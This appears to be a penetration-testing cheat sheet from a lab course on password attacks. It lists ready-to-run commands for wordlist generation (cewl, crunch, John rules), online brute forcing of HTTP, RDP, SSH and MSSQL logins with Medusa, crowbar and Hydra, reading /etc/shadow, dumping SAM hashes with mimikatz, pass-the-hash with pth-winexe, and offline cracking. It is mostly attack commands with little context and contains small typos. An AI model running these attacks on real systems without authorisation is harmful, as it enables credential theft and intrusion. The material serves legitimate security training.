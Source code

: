### Password attack

```
cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt


```

/etc/john/john.conf

locate the [List.Rules:Wordlist] segment where wordlist mutation rules are defined, and append a new rule. In this example, we will append the two-digit sequence of numbers from (double) zero to ninety-nine after each word in our wordlist.
We will begin this rule with the $ character, which tells John to append a character to the original word in our wordlist. Next, we specify the type of character we want to append, in our case we want any number between zero and nine ([0-9]). Finally, to append double-digits, we will simply repeat the $[0-9] sequence

```
kali@kali:~$ sudo nano /etc/john/john.conf ...
# Wordlist mode rules [List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words ...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# Add two numbers to the end of each password $[0-9]$[0-9]
...
```

#### Run John

```
 john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
```

### Generate password

Password pattern: Abc$#123

```
crunch 8 8 -t ,@@^^%%%

```

Supplying characters to use:
```
crunch 4 6 0123456789ABCDEF -o crunch.txt
```

Specifying predefined character-sets

```
 crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
```

### HTTP htaccess attack with Medusa

```
sudo gunzip /usr/share/wordlists/rockyou.txt.gz

medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

```

### RDP Protocol attack

```
sudo apt install crowbar

crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1

```

### SSH attack with THC-Hydra

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1

``
### HTTP POST Attack with THC-Hydra

```
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f

```
#### ms-sql password brute

```
hydra -l sa -P /usr/share/nmap/nselib/data/passwords.lst mssql://10.11.1.227:27900

```
### Retrieving password hashes

```
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a

hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e 5NAz/s7DQcAojRTWNpZX0'
Analyzing '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e 5NAz/s7DQcAojRTWNpZX0'
[+] SHA-512 Crypt

```

```
sudo greo root /etc/shadow


```

#### Windows system - mimikatz

```
C:\Tools\password_attacks\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam

```

#### Pass the hash

```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd

```

#### Password cracking

```
sudo john hash.txt --format=NT
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt -- format=NT
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt

hashcat64.exe -b
```

The --fork option engages multiple processes to make use of more CPU cores on a single machine and --node splits the work across multiple machines.


zip2john x.zip > x.txt

john --wordlist=/usr/share/wordlists/rockyou.txt x.txt


